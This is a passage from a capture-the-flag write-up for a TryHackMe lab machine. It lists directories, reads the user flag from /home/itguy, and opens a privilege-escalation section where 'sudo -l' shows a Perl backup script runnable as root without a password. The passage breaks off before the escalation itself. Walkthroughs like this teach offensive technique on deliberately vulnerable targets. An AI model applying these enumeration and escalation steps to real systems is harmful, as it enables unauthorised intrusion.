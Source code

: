 ```bash
bin
boot
cdrom
dev
etc
home
initrd.img
initrd.img.old
lib
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
```
```bash
$ ls /home
itguy
```
```bash
$ ls /home/itguy
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
```
```bash
$ cat /home/itguy/user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
```

# Post Exploitation
> Privilege Escalation
27. `sudo -l` to list the sudo privileges assigned to the user that we're currently logged in as onto our terminal, which reveals that we can execute Perl commands and a Perl script using sudo without having to enter the root's password
```bash
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```